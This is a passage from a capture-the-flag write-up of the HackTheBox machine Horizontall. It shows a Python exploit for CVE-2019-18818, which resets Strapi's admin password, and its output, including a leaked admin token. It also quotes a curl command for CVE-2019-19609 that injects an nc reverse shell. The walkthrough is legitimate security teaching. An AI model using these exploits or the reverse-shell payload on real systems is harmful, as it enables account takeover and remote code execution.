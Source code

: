     s  =  requests.Session()    
         
    version = json.loads(s.get("{}/admin/strapiVersion".format(url)).text)    
         
    print("[*] Detected version(GET /admin/strapiVersion): {}".format(version["strapiVersion"]))    
         
    #Request password reset    
    print("[*] Sending password reset request...")    
    reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}    
    s.post("{}/".format(url), json=reset_request)    
         
    #Reset password to    
    print("[*] Setting new password...")    
    exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}    
    r=s.post("{}/admin/auth/reset-password".format(url), json=exploit)    
         
    print("[*] Response:")    
    print(str(r.content))   
    

Basically it gets the version, then submits a POST to `/admin/plugins/user-
permissions/auth/reset-password`, and then another POST to `/admin/auth/reset-
password`. I’ll give it a try. I thought I might need to guess the admin email
address, but it turns out that doesn’t matter (I’ll look at the script and the
responses in Beyond Root).

    
    
    oxdf@hacky$ python3 cve-2019-18818.py randomjunk http://api-prod.horizontall.htb 0xdf0xdf
    [*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
    [*] Sending password reset request...
    [*] Setting new password...
    [*] Response:
    b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjI3OTI1NzY0LCJleHAiOjE2MzA1MTc3NjR9.KKiaGhh3vsqtsgoqxliwiQt-8SLpQem6L5LDs0ks34o","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
    

The response gives the admin’s username, which I can use to log in at
`/admin`:

![image-20210802134604970](https://0xdfimages.gitlab.io/img/image-20210802134604970.png)

### RCE

#### Proof of Concept

Now that I’m authenticated, I’ll turn back to CVE-2019-19609. Looking at the
[blog post](https://bittherapy.net/post/strapi-framework-remote-code-
execution/), it’s a JSON POST request to `/admin/plugins/install` with command
injection in the `plugin` parameter. They show it as a `curl` command:

    
    
    curl -i -s -k -X $'POST' -H $'Host: localhost:1337' -H $'Authorization: Bearer [jwt]' -H $'Content-Type: application/json' -H $'Origin: http://localhost:1337' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f)\",\"port\":\"1337\"}' $'http://localhost:1337/admin/plugins/install'
    